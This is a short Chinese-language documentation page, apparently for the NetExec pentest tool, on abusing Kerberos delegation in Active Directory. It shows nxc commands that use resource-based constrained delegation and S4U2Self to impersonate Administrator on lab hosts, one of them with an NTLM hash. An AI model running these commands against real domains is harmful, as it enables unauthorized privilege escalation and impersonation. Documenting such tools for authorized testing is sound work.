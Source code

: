 ```yaml
---
description: 基于资源的约束委派 (RBCD)
---
```


# 🆕 委派

## RBCD

如果你有一个对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性被设置为你控制的账户，你可以在 NetExec 中使用 impersonate 标志来自动执行基于资源的约束委派并模拟任何用户：

{% code fullWidth="false" %}
```
nxc smb 192.168.56.11 -u jon.snow -p iknownothing --delegate Administrator
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>使用 NetExec 进行 RBCD</p></figcaption></figure>

## S4U2Self

如果你有一个计算机账户，你几乎总是可以使用 s4u2self 扩展获取本地管理员权限：

```
nxc smb 192.168.56.10 -u 'KINGSLANDING$' -H 220fc1990391bdc183d1a68c389c0229 --delegate Administrator --self
```

<figure><img src="../../.gitbook/assets/self (2).png" alt=""><figcaption><p>使用 NetExec 的委派功能滥用 S4U2Self</p></figcaption></figure>

## 相关资源：

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd" %}

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/s4u2self-abuse" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation" %}

